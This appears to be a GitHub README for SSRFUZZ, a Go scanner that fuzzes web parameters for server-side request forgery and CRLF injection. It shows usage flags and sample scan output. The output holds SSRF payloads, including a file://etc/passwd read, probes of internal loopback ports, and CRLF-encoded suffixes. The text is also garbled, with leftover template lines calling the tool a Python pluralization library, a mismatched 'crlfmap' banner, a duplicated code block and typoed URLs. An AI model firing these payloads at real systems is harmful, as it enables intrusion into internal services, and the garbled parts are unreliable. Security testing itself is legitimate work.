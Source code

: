# SSRFUZZ

Foobar is a Python library for dealing with word pluralization.

## Installation

Run the following command to intsall

```bash
go get github.com/ryandamour/ssrfuzz
```

## Usage

```go
===============================================================
SSRFUZZ v1.0.0
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output

```
* Scanning http and scheme payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan
...
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```
* Scanning only http payloads w/o crlf:
```go
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf
...

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
